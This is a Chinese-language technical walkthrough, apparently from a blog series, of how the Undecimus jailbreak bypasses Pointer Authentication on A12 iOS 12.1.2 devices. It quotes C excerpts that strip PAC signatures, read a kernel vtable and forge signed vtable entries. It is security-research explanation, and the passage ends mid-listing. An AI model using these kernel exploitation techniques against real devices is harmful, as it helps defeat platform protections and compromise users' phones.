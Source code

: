 # 绕过 PAC 的代码导读
经过理论分析相信读者已经对整个绕过的过程有了整体认识，由于整个过程太过复杂，单单进行理论分析难免会让人云里雾里，将上述理论分析结合阅读 Undecimus 中的代码可以很好的加深理解。

这部分代码位于上一篇文章提到的 `init_kexec` 和 `kexec` 两个函数中，针对 arm64e 架构采用了完全不同的手段。**鉴于本文的理论分析部分已涉及到大量的代码，这里不再完整的进行分析，只说几个理论分析中未完全提及的内容**。完整的代码请读者结合上述理论分析自行阅读，相信你会有很大的收获。

经过上面的分析相信读者能够轻易地理解 `kernel_call_init` 中的 `stage1_kernel_call_init` 和 `stage2_kernel_call_init`，这两个阶段主要是完成 UserClient 的启动和 G1 的签名工作，需要注意的是在 `stage2_kernel_call_init->stage1_init_kernel_pacxa_forging` 的结尾处创建了一个 buffer，用来存储新的虚函数表以及 PACIA & PACDA 的签名结果：

```c
static void
stage1_init_kernel_pacxa_forging() {
    // ...
    kernel_pacxa_buffer = stage1_get_kernel_buffer();
}
```

此外 A12 在 iOS 12.1.2 的 PAC 机制也允许在 userland 通过 XPAC 指令直接将一个加签的指针还原，这给我们拷贝虚函数表带来了极大的便利，这段代码位于 `stage3_kernel_call_init` 中：
```c
uint64_t
kernel_xpacd(uint64_t pointer) {
#if __arm64e__
	return xpacd(pointer);
#else
	return pointer;
#endif
}

static uint64_t *
stage2_copyout_user_client_vtable() {
	// Get the address of the vtable.
	original_vtable = kernel_read64(user_client);
	uint64_t original_vtable_xpac = kernel_xpacd(original_vtable);
	// Read the contents of the vtable to local buffer.
	uint64_t *vtable_contents = malloc(max_vtable_size);
	assert(vtable_contents != NULL);
	kernel_read(original_vtable_xpac, vtable_contents, max_vtable_size);
	return vtable_contents;
}
```

在 patch 虚函数表时，每个函数都有其特定的 context，因此这里使用了 dump 出来的对应于每个虚函数的 PAC Code，这段代码位于 `stage2_patch_user_client_vtable` 中：
```c
static size_t
stage2_patch_user_client_vtable(uint64_t *vtable) {
// ...
#if __arm64e__
	assert(count < VTABLE_PAC_CODES(IOAudio2DeviceUserClient).count);
	vmethod = kernel_xpaci(vmethod);
	uint64_t vmethod_address = kernel_buffer + count * sizeof(*vtable);
	vtable[count] = kernel_forge_pacia_with_type(vmethod, vmethod_address,
			VTABLE_PAC_CODES(IOAudio2DeviceUserClient).codes[count]);
#endif // __arm64e__
	}
	return count;
}
```
这里针对每个虚函数都采用了不同的 PAC Code，dump 出的 PAC Code 通过静态变量存储，并借助宏 `VTABLE_PAC_CODES` 进行访问，这里的每个 context 长度只有 16 位：
```c
static void
pac__iphone11_8__16C50() {
    INIT_VTABLE_PAC_CODES(IOAudio2DeviceUserClient,
```